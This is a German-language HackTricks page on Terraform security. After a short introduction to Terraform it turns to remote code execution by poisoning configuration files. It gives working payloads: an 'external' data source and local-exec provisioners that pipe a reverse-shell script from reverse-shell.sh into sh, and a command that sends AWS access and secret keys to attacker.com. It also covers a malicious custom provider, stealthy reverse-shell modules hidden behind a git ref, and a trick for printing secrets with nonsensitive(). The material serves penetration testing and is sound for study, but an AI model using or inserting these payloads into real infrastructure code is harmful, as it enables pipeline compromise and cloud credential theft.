 # Terraform Sicherheit

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Grundlegende Informationen

[Aus den Dokumenten: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform ist ein **Infrastruktur als Code-Tool**, mit dem Sie sowohl **Cloud- als auch lokale Ressourcen** in menschenlesbaren Konfigurationsdateien definieren können, die Sie versionieren, wiederverwenden und teilen können. Anschließend können Sie einen konsistenten Workflow verwenden, um Ihre gesamte Infrastruktur während ihres Lebenszyklus bereitzustellen und zu verwalten. Terraform kann Low-Level-Komponenten wie Compute, Storage und Netzwerkressourcen sowie High-Level-Komponenten wie DNS-Einträge und SaaS-Funktionen verwalten.

### Wie funktioniert Terraform?

Terraform erstellt und verwaltet Ressourcen auf Cloud-Plattformen und anderen Diensten über deren Anwendungsprogrammierschnittstellen (APIs). Anbieter ermöglichen es Terraform, mit praktisch jeder Plattform oder jedem Dienst mit einer zugänglichen API zu arbeiten.

![](<../.gitbook/assets/image (33).png>)

HashiCorp und die Terraform-Community haben bereits **mehr als 1700 Anbieter** geschrieben, um Tausende verschiedener Arten von Ressourcen und Diensten zu verwalten, und diese Zahl wächst weiter. Sie finden alle öffentlich verfügbaren Anbieter im [Terraform-Register](https://registry.terraform.io/), einschließlich Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog und vielen mehr.

Der Kernworkflow von Terraform besteht aus drei Phasen:

* **Schreiben:** Sie definieren Ressourcen, die über mehrere Cloud-Anbieter und Dienste verteilt sein können. Beispielsweise könnten Sie eine Konfiguration erstellen, um eine Anwendung auf virtuellen Maschinen in einem Virtual Private Cloud (VPC)-Netzwerk mit Sicherheitsgruppen und einem Lastenausgleicher bereitzustellen.
* **Planen:** Terraform erstellt einen Ausführungsplan, der die Infrastruktur beschreibt, die es basierend auf der vorhandenen Infrastruktur und Ihrer Konfiguration erstellen, aktualisieren oder zerstören wird.
* **Anwenden:** Nach Genehmigung führt Terraform die vorgeschlagenen Operationen in der richtigen Reihenfolge aus und berücksichtigt dabei alle Ressourcenabhängigkeiten. Wenn Sie beispielsweise die Eigenschaften eines VPC aktualisieren und die Anzahl der virtuellen Maschinen in diesem VPC ändern, wird Terraform den VPC neu erstellen, bevor es die virtuellen Maschinen skaliert.

![](<../.gitbook/assets/image (81).png>)

## Terraform Labor

Installieren Sie einfach Terraform auf Ihrem Computer.

Hier finden Sie eine [Anleitung](https://learn.hashicorp.com/tutorials/terraform/install-cli) und hier finden Sie die [beste Möglichkeit, Terraform herunterzuladen](https://www.terraform.io/downloads).

## RCE in Terraform

Terraform hat **keine Plattform, die eine Webseite oder einen Netzwerkservice freigibt**, den wir aufzählen können. Daher ist der einzige Weg, Terraform zu kompromittieren, zu **können Terraform-Konfigurationsdateien hinzufügen/ändern**.

Terraform ist jedoch eine **sehr sensible Komponente** zum Kompromittieren, da es **privilegierten Zugriff** auf verschiedene Standorte hat, um ordnungsgemäß zu funktionieren.

Der Hauptweg für einen Angreifer, das System zu kompromittieren, auf dem Terraform ausgeführt wird, besteht darin, das Repository zu kompromittieren, das Terraform-Konfigurationen speichert, da sie zu einem bestimmten Zeitpunkt **interpretiert** werden.

Tatsächlich gibt es Lösungen, die **terraform plan/apply automatisch ausführen, nachdem ein PR erstellt wurde**, wie z.B. **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Wenn es Ihnen gelingt, eine Terraform-Datei zu kompromittieren, gibt es verschiedene Möglichkeiten, wie Sie RCE durchführen können, wenn jemand `terraform plan` oder `terraform apply` ausführt.

### Terraform plan

`terraform plan` ist der **am häufigsten verwendete Befehl** in Terraform, und Entwickler/Lösungen, die Terraform verwenden, rufen ihn die ganze Zeit auf. Daher ist der **einfachste Weg, RCE zu erhalten**, sicherzustellen, dass Sie eine Terraform-Konfigurationsdatei vergiften, die beliebige Befehle in einem `terraform plan` ausführt.

#### Verwendung eines externen Anbieters

Terraform bietet den [`external`-Anbieter](https://registry.terraform.io/providers/hashicorp/external/latest/docs), der eine Möglichkeit bietet, zwischen Terraform und externen Programmen zu kommunizieren. Sie können die `external`-Datenquelle verwenden, um beliebigen Code während eines `plan` auszuführen.

Das Einfügen von etwas Ähnlichem in eine Terraform-Konfigurationsdatei wird einen Reverse-Shell ausführen, wenn `terraform plan` ausgeführt wird:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Verwendung eines benutzerdefinierten Anbieters

Ein Angreifer könnte einen [benutzerdefinierten Anbieter](https://learn.hashicorp.com/tutorials/terraform/provider-setup) an das [Terraform-Register](https://registry.terraform.io/) senden und ihn dann dem Terraform-Code in einem Feature-Zweig hinzufügen ([Beispiel von hier](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Der Anbieter wird im `init` heruntergeladen und führt den bösartigen Code aus, wenn `plan` ausgeführt wird.

Ein Beispiel finden Sie unter [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Verwendung eines externen Verweises

Beide genannten Optionen sind nützlich, aber nicht sehr unauffällig (die zweite ist unauffälliger, aber komplexer als die erste). Sie können diesen Angriff sogar auf eine **unauffälligere Weise** durchführen, indem Sie diesen Vorschlägen folgen:

* Anstatt den Reverse-Shell-Code direkt in die Terraform-Datei einzufügen, können Sie eine **externe Ressource laden**, die den Reverse-Shell-Code enthält:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Du findest den Rev Shell-Code unter [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Verwende im externen Ressourcenbereich die **ref**-Funktion, um den **Terraform Rev Shell-Code in einem Branch** im Repo zu verstecken, beispielsweise so: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform Apply wird ausgeführt, um alle Änderungen anzuwenden. Du kannst es auch missbrauchen, um RCE zu erhalten, indem du **eine bösartige Terraform-Datei mit** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)** einschleust**.\
Stelle einfach sicher, dass sich ein Payload wie die folgenden im `main.tf`-Datei befindet:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Folgen Sie den **Vorschlägen aus der vorherigen Technik**, um diesen Angriff auf **unauffälligere Weise unter Verwendung externer Referenzen** durchzuführen.

## Geheimnisauszüge

Sie können **geheime Werte, die von Terraform verwendet werden, ausgeben lassen**, indem Sie `terraform apply` ausführen und etwas Ähnliches zur Terraform-Datei hinzufügen:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Audit-Tools

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec verwendet die statische Analyse Ihres Terraform-Codes, um potenzielle Fehlkonfigurationen zu erkennen.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan ist ein statischer Code-Analyzer für Infrastruktur als Code.

## Referenzen

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Heldenniveau mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
